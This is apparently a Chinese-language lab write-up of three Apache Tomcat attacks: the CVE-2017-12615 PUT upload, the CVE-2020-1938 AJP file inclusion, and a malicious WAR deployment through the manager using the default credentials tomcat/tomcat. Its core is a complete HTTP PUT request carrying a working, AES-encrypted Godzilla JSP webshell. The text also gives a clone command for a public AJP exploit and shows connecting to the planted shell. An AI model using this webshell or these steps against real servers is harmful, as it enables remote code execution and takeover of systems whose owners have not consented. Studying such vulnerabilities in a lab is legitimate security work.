 # Tomcat远程命令执行(CVE-2017-12615)

> CVE-2017-12615

### 环境准备

![image-20241023224643695](./assets/image-20241023224643695.png)

### 开始攻击

- 修改请求方法为`PUT`,写webshell

```cmd
PUT /hacker.jsp/ HTTP/1.1
Host: 192.168.2.254:8080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.193 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.233931871.1665473995
Connection: close
Content-Length: 2617

<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>
```

<img src="./assets/image-20241023230207906.png" alt="image-20241023230207906" style="zoom: 33%;" />

- 连接`Godzilla`看看

<img src="./assets/image-20241023230515247.png" alt="image-20241023230515247" style="zoom: 33%;" />

### 漏洞原理

- `Apache Tomcat`如果开启PUT方法(默认关闭),则存在此漏洞,攻击者可以利用该漏洞构造请求上传webshell,导致`远程命令执行`

****

# Tomcat文件包含(CVE-2020-1938)

> CVE-2020-1938

### 环境准备

```cmd
git clone https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi.git
```

### 开始攻击

![image-20241023234141202](./assets/image-20241023234141202.png)

- 成功读取到xml文件,说明存在文件包含漏洞

### 漏洞原理

- 使用了AJP协议(默认端口8009)存在缺陷,只要扫到8009端口就可以尝试是否存在漏洞

****

# Tomcat远程文件部署

- 默认账号密码:`tomcat/tomcat`登录后台

<img src="./assets/image-20241023234925985.png" alt="image-20241023234925985" style="zoom: 33%;" />

```cmd
//将1.jsp打包成war
jar -cvf 1.war 1.jsp
```

![image-20241023235537825](./assets/image-20241023235537825.png)

- 访问看看`http://192.168.2.254:8080/1/1.jsp`

- 连接`Godzilla`

<img src="./assets/image-20241023235643337.png" alt="image-20241023235643337" style="zoom:50%;" />

****